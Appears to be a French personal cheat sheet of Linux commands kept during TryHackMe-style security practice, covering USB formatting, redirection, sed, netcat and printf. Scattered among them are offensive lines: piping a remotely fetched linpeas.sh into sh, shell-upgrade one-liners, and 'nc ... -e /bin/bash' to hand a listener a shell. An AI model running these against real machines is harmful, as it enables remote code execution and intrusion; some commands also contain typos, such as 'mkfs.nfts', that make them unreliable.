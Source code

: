 N'oublie pas la commande man  

python -m http.server 8000 : Lancer un serveur python local

Pour récupérer le fichier : `curl [vpnhostIP]/linpeas.sh| sh` pour l'executer directement

wget : récupérer des fichiers via internet.

Formater cle usb :  
df : lister toute les partitions.  
sudo umount /dev/sd.....  
sudo mkfs.nfts /dev/sd.....

Quand ya un souci de capacité sur une clé usb :

**Étape 1. Supprimer toutes les partitions**

- Ouvrez un terminal et tapez **sudo su** .
- Tapez **fdisk -l** et notez la lettre de votre clé USB.
- Tapez **fdisk /dev/sdx** (en remplaçant x par votre lettre de lecteur).
- Tapez **d** pour procéder à la suppression d'une partition.
- Tapez **1** pour sélectionner la 1ère partition et appuyez sur Entrée.
- Tapez **d** pour procéder à la suppression d'une autre partition (fdisk devrait automatiquement sélectionner la deuxième partition).

**Étape 2. Créer une nouvelle partition**

- Tapez **n** pour créer une nouvelle partition.
- Tapez **p** pour rendre cette partition primaire et appuyez sur Entrée.
- Tapez **1** pour en faire la première partition, puis appuyez sur Entrée.
- Appuyez sur Entrée pour accepter le premier cylindre par défaut.
- Appuyez à nouveau sur Entrée pour accepter le dernier cylindre par défaut.
- Tapez **w** pour écrire les nouvelles informations de partition sur le disque USB.
- Tapez **mkfs.vfat -F 32 /dev/sdx1** (en remplaçant x par la lettre de votre clé USB).

adduser : créer un user

Pour démarrer le vpn de thm, faire, dans download, sudo openvpn name.ovpn &. Le & c'est pour le lancer en arrière plan. Puis faire entrer

Pour associer une adresse ip à un mot pour plus de rapidité, sudo nano /etc/host puis tu fais comme pour les autres, tu suis cette syntaxe :

[111.111.111.111](http://111.111.111.111 "http://111.111.111.111")            target

/dev/null : "trou noir" du terminal. En outre c'est pour supprimer des trucs.

Tu peux supprimer le résultat d'une commande (ne pas l'afficher): commande > /dev/null.

Tu peux aussi ne pas mettre d'entrée. Par exemple si j'ai un script qui affiche mon input, je fais ./programme.sh < /dev/null

Ou encore supprimer les erreurs : commande 2> /dev/null  
rappel :

En langage Unix, il existe trois flux standard :

- 0 : L'entrée standard (stdin) où les commandes lisent les données.
- 1 : La sortie standard (stdout) où les commandes affichent les résultats.
- 2 : Le flux d'erreur standard (stderr) où les commandes affichent les messages d'erreur.

cat ~/.*history | less : voir l'historique des commandes tapées

python -c 'import pty;pty.spawn("/bin/bash")' : Trois commandes (pas liées) à faire si tu est dans un shell réduit.

echo os.system('/bin/bash')  
/bin/sh -i

whoami : affiche l'utilisateur courant

|||
|---|---|
|Symbol / Operator|Description|
|&|Cet opérateur vous permet d'exécuter des commandes en arrière-plan de votre terminal.( à mettre après la commande)|
|&&|Cet opérateur vous permet de combiner plusieurs commandes dans une seule ligne de votre terminal.|
|>|Cet opérateur est un redirecteur - ce qui signifie que nous pouvons prendre la sortie d'une commande (comme l'utilisation de cat pour sortir un fichier) et la diriger ailleurs.|
|>>|Cet opérateur a la même fonction que l'opérateur >, mais il ajoute la sortie au lieu de la remplacer (ce qui signifie que rien n'est écrasé)..|

**Sed :** Editeur de données dans fichier (utile pour faire des tâches automatisés)

1. **Remplacement de texte :**

- Syntaxe de base : `sed 's/ancien_mot/nouveau_mot/' fichier`
- Exemple : `sed 's/apple/orange/' fichier.txt` remplace la première occurrence de "apple" par "orange" dans le fichier `fichier.txt`.

2. **Remplacement de toutes les occurrences :**

- Ajouter le modificateur `g` pour remplacer toutes les occurrences : `sed 's/ancien_mot/nouveau_mot/g' fichier`

3. **Utilisation de délimiteurs différents :**

- Vous pouvez utiliser des délimiteurs autres que `/` pour éviter d'avoir à échapper les caractères spéciaux. Par exemple : `sed 's|ancien_mot|nouveau_mot|' fichier`

4. **Suppression de lignes :**

- Pour supprimer une ligne qui contient un certain motif, utilisez : `sed '/motif/d' fichier`

5. **Impression de lignes spécifiques :**

- Utilisez `sed -n` pour supprimer l'impression par défaut, puis ajoutez une règle pour imprimer des lignes spécifiques. Par exemple : `sed -n '10,20p' fichier` imprime les lignes de 10 à 20.

6. **Ajout de texte à la fin d'une ligne :**

- `sed 's/$/ texte_a_ajouter/' fichier` ajoute "texte_a_ajouter" à la fin de chaque ligne.

7. **Utilisation de scripts avec **`**sed**`** :**

- Vous pouvez également utiliser des scripts `sed` contenus dans des fichiers externes. Par exemple : `sed -f script.sed fichier`

8. **Modification en place du fichier :**

- Ajouter l'option `-i` pour modifier le fichier en place. Par exemple : `sed -i 's/ancien_mot/nouveau_mot/' fichier`

9. **Utilisation de expressions régulières :**

- `sed` supporte les expressions régulières étendues (ERE). Par exemple : `sed -E 's/[0-9]+/NUM/g' fichier` remplace tous les nombres par "NUM

**Netcat :** établir une connexion dans shell entre des machines.

```
-c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
        -e filename             program to exec after connect [dangerous!!]
        -b                      allow broadcasts
        -g gateway              source-routing hop point[s], up to 8
        -G num                  source-routing pointer: 4, 8, 12, ...
        -h                      this cruft
        -i secs                 delay interval for lines sent, ports scanned
        -k                      set keepalive option on socket
        -l                      listen mode, for inbound connects
        -n                      numeric-only IP addresses, no DNS
        -o file                 hex dump of traffic
        -p port                 local port number
        -r                      randomize local and remote ports
        -q secs                 quit after EOF on stdin and delay of secs
        -s addr                 local source address
        -T tos                  set Type Of Service
        -t                      answer TELNET negotiation
        -u                      UDP mode
        -v                      verbose [use twice to be more verbose]
        -w secs                 timeout for connects and final net reads
        -C                      Send CRLF as line-ending
        -z                      zero-I/O mode [used for scanning]
```

Attendre une connexion :

- nc -lvp portnumber

Se connecter :

- nc address portnumber

Executer un fichier quand on se connecte :

- nc address portnumber -e filename (on peut mettre /bin/bash pour que le listener puisse executer un shell sur ta session)

Charger un fichier text vers un fichier text distant :

- Dans la sessions listener : nc -lvp portnumber > filetarget.txt
- Dans la session connector : nc address portnumber < contentfile.txt
- Le contenu du contentfile.txt ira dans filetarget.txt

**Opérations mathématiques dans un shell**
- `printf "%x\n" $((0x7fffffffda70 - 0x24))`
- `printf "%d\n" 0x1f  `
- `printf "%020x" 123` Converti la valeur 123 en hex sur 20 bit
- `printf "%d\n" 0xFF

Programmer une tâche ponctuelle
`at now + 20 minutes
`> firefox` lance firefox dans 20 minutes


